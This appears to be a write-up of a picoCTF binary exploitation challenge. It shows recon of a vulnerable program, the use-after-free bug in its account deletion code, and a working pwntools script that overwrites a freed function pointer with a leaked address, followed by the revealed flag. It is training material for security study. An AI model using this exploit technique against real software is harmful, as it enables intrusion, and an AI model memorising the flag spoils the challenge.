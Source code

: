 
# Unsubscriptions Are Free

*Hard*

>### Description
>Check out my new video-game and spaghetti-eating streaming channel on Twixer! [program](./vuln) and get a flag. [source](./vuln.c) `nc mercury.picoctf.net 4593`

## Solution

### Recon

When we connect to the service, we are greeted with a simple menu.

![Terminal menu](pic1.png)

- Notice, when I press 'S' to subscribe, it says something about a memory leak: "OOP! Memory leak...0x80487d6".

Get some info about the binary with `checksec`:
```
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    Stripped:   No
```

And look at the source code. 

This is the function that prints the flag.
```c
void hahaexploitgobrrr(){
        char buf[FLAG_BUFFER];
        FILE *f = fopen("flag.txt","r");
        fgets(buf,FLAG_BUFFER,f);
        fprintf(stdout,"%s\n",buf);
        fflush(stdout);
}
```
Notice that the leaked address is the address of this function:
```c
void s(){
        printf("OOP! Memory leak...%p\n",hahaexploitgobrrr);
        puts("Thanks for subsribing! I really recommend becoming a premium member!");
}
```

We find a vulnerability in the account deletion option.
```c
void i(){
        char response;
        puts("You're leaving already(Y/N)?");
        scanf(" %c", &response);
        if(toupper(response)=='Y'){
                puts("Bye!");
                free(user);
        }else{
                puts("Ok. Get premium membership please!");
        }
}
```
It frees the memory of the user variable, but user is still used everywhere in the program. After this we can probably overwrite the `user->whatToDo` to the leaked address the options that allows us to leave a message:
```c
void leaveMessage(){
        puts("I only read premium member messages but you can ");
        puts("try anyways:");
        char* msg = (char*)malloc(8);
        read(0, msg, 8);
}
```

### Exploit

When we delete the user account (free memory), and we leave a message "aabbccdd", the program will segfault because it cannot execute this 0x62626161 memory location. 

Since the leaked memory address is the same each time, we can just write a very simple [script](./exploit.py) to exploit this.

```python
#!/bin/python3

from pwn import *

p = remote('mercury.picoctf.net', 4593)

p.recvuntil(b'(e)xit\n')
p.sendline(b'i')
p.sendline(b'Y')
p.recvuntil(b'(e)xit\n')
p.sendline(b'l')
p.sendline(p32(0x80487d6))

p.interactive()
```

<details>
<summary>Yes! We got the flag:</summary> 
picoCTF{d0ubl3_j30p4rdy_ba307b82}
</details>
